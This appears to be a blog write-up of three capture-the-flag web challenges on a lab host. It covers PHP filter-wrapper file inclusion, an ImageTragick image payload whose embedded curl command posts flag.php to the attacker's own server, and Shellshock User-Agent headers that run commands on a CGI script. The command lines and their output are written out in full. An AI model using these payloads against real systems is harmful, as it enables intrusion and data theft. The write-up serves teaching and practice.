 ```yaml
---
layout: post
title: "CTF7E4 - Web Challenges"
categories: CTF7E4
---
```

## 1. f1ltered
&nbsp;
**Challenge Description:**{: style="color: red"}
Read the source Luke!
- **Hosted on:** http://10.10.10.88:80

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/filtered1.png){:.images}
&nbsp;

When we clicked on "Show News" button, paramter **page** changed from **?page=index** to **?page=news**. In this case we knew that it's including a local .php file and in this case we can try for LFI (Local File Inclusion).

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/filtered2.png){:.images}
&nbsp;

When including **?page=flag**, we saw a message saying *"It's here, you just have to see it."*. If the php code is vulnerable to LFI, we can try to read the source code with php wrappers. There are many [php wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers) which can be used for different attacks, such as executing code, reading zipped/compressed files, etc. Since the flag we need is inside **flag.php**, we can use **php://filter** to convert the source code to base64 and force the server to interpret it so we can later decode it.
&nbsp;

> **http://10.10.10.88/index.php?page=php://filter/convert.base64-encode/resource=flag**{: style="color: red"}
&nbsp;

![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/filtered3.png){:.images}
&nbsp;


> **echo "PD9waHAKCgkjWE9Se3BIcF93cjRwcGVyc188M30KCWVjaG8gIkl0J3MgaGVyZSB5b3UganVzdCBoYXZlIHRvIHNlZSBpdCI7Cgo/Pgo=" \| base64 -d**{: style="color: red"}


{% highlight php %}
<?php                     

	#XOR{pHp_wr4ppers_<3}
	echo "It's here you just have to see it";

?>
{% endhighlight %}
&nbsp;


## 2. Tr4g1ck
&nbsp;
**Challenge Description:**{: style="color: red"}
inurl:"hackerone" insite:"tragick"
- **Hosted on:** http://10.10.10.88:8000

&nbsp;
Browsing to http://10.10.10.88:8000, directory listing was enabled by default so we started analyzing the files that were present there.

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/tragick1.png){:.images}
&nbsp;

We noticed that demo.php is converting or executing vul.jpg which can be uploaded by upload.php form. There was a [critical vulnerability](https://imagetragick.com) that was found on ImageMagick which is used by many websites for image processing.

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/tragick2.png){:.images}
&nbsp;

There are many [PoCs](https://github.com/ImageTragick/PoCs) available on GitHub that explain how to get a reverse shell, but since our goal here is to only read the flag inside flag.php, we can use a simple curl command to send the flag back to our server.

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/tragick3.png){:.images}
&nbsp;

We uploaded vul.jpg with the below content inside it.
&nbsp;

```
cat vul.jpg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`curl -d @flag.php http://10.10.20.2:9000/`"||id" )'
pop graphic-context
```

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/tragick4.png){:.images}
&nbsp;

By default, python module 'http.server' does not accept POST requests, so in this case we used a [modified](https://gist.githubusercontent.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7/raw/a6a1d090ac8549dac8f2bd607bd64925de997d40/server.py) version of it. As soon as the file was uploaded, demo.php executed it and the content of flag.php came to our server listening on port 9000.

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/tragick5.png){:.images}
&nbsp;


&nbsp;
&nbsp;
## 3. Old but Gold
&nbsp;
**Challenge Description:**{: style="color: red"}
Have  you seen Mr. Robot Season 1?
- **Hosted on:** http://10.10.10.88:7000

&nbsp;
Browsing to http://10.10.10.88:7000, we can only see a blank page but looking at the source code we notice something strange.

> curl https://10.10.10.88:7000                                                    **<\!-- Mr Robot - Ones and Zer0s -->**{: style="color: red"}

After spending a short time searching on google, we saw that in the episode 'Ones and Zer0s' E-Corp mail servers haven't been patched since "ShellShock" so Elliot uses this vulnerability to hack into Tyrell's email. Usually shellshock is located on cgi scripts so we can use different tools such as dirsearch, gobuster, ffuf to find these hidden files and directories. 
&nbsp;

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/oldbutgold.png){:.images}
&nbsp;

> **→ ffuf -c -w ~/tools/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.88:7000/cgi-bin/FUZZ**
**stats  [Status: 200, Size: 107, Words: 17, Lines: 5]**{: style="color: red"}


> **→ curl -H "User-Agent: () { :; }; echo; /usr/bin/whoami" http://10.10.10.88:7000/cgi-bin/stats**                                                                    
**www-data**{: style="color: red"}

> **→ curl -H "User-Agent: () { :; }; echo; /bin/ls /var/www/" http://10.10.10.88:7000/cgi-bin/stats**                                                     
**16c5a217fbe1a2002019d4d5720e5724.txt**{: style="color: red"}
**index.html**{: style="color: red"}

> **→ curl -H "User-Agent: () { :; }; echo; /bin/cat /var/www/16c5a217fbe1a2002019d4d5720e5724.txt" http://10.10.10.88:7000/cgi-bin/stats**        
**XOR{sh3ll_sh0ck3d}**{: style="color: red"}

&nbsp;
I hope you had fun solving these challenges and learning something new.